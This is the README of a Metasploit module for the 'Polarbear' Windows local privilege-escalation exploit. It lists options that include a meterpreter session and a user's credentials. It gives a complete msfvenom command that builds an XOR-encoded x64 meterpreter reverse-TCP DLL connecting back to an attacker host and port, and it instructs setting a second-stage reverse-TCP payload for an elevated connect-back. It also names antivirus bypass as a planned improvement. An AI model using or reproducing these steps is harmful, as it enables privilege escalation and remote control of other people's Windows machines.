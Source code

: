 # Metasploit module for Polarbear Windows LPE Exploit

## Usage

### Exploit Options:

- SESSION => Current meterpreter session for unprivileged user.
- USERNAME => This is the username for an unprivileged user.
- PASSWORD => This is the password for the same unprivileged user.
- DOMAIN => This is the domain name the unprivileged user is under.
- DLLPATH => This is a local path to the meterpreter reverse tcp dll.

Be sure to set PAYLOAD to a second stage meterpreter reverse tcp for the elevated connect back with:

- PAYLOAD => exploit/windows/meterpreter/reverse_tcp
- LHOST => Same LHOST as used for DLL
- LPORT => Same LPORT as used for DLL

## Generating DLL

The DLL can be generated with:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.105 LPORT=4443 -e x64/xor -f dll -o payload.dll
```

Where LHOST is your meterpreter reverse tcp listener IP, and LPORT is the port.

## Improvements

Auto-generated OTP encoded polarbear.exe and second stage DLL with antivirus bypassing techniques.

![](success.png)
